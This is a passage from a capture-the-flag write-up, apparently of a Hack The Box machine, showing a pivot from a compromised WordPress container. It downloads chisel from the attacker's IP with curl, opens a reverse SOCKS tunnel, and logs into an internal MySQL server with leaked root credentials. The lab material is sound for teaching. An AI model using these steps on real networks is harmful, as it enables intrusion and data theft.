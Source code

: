 ```
/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
...[snip]...
```

There is no mysql client installed on the docker so we start a chisel server on our machine, transfer chisel to the target and start a client with a reverse socks proxy to us.

```
www-data@wordpress:/tmp$ mysql -u root -h mysql.toby.htb -p
bash: mysql: command not found
```

```
$ chisel server -p 9000 -reverse
2021/11/07 18:39:40 server: Reverse tunnelling enabled
2021/11/07 18:39:40 server: Fingerprint lek7/5Zt3VLhhwbGWNuO0WxRrjbBwuqdOG4Se4gQhvw=
2021/11/07 18:39:40 server: Listening on http://0.0.0.0:9000
```

```
www-data@wordpress:/tmp$ curl 10.10.14.64:8000/chisel -o chisel
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 8144k  100 8144k    0     0  3339k      0  0:00:02  0:00:02 --:--:-- 3340k
www-data@wordpress:/tmp$ chmod +x chisel
www-data@wordpress:/tmp$ ./chisel client 10.10.14.64:9000 R:socks &
[1] 8875
www-data@wordpress:/tmp$ 2021/11/07 18:40:42 client: Connecting to ws://10.10.14.64:9000
2021/11/07 18:40:42 client: Connected (Latency 33.594167ms)
```

Next we need the ip of the mysql installation which we can obtain using nslookup.

```
www-data@wordpress:/tmp$ nslookup mysql.toby.htb
Server:         127.0.0.11
Address:        127.0.0.11#53

Non-authoritative answer:
Name:   mysql.toby.htb
Address: 172.69.0.102
```

We make sure that our `/etc/proxychains.conf` contains the right configuration by having this line at the end and all other proxies commented out.

```
socks5      127.0.0.1 1080
```

Now we can login into mysql from our machine using proxychains and the credentials `root:OnlyTheBestSecretsGoInShellScripts`. Taking a look at the wordpress database we find hashes for the two users toby and toby-admin.

```
$ proxychains mysql -u root -h 172.69.0.102 -p
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 2168
Server version: 8.0.26 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
```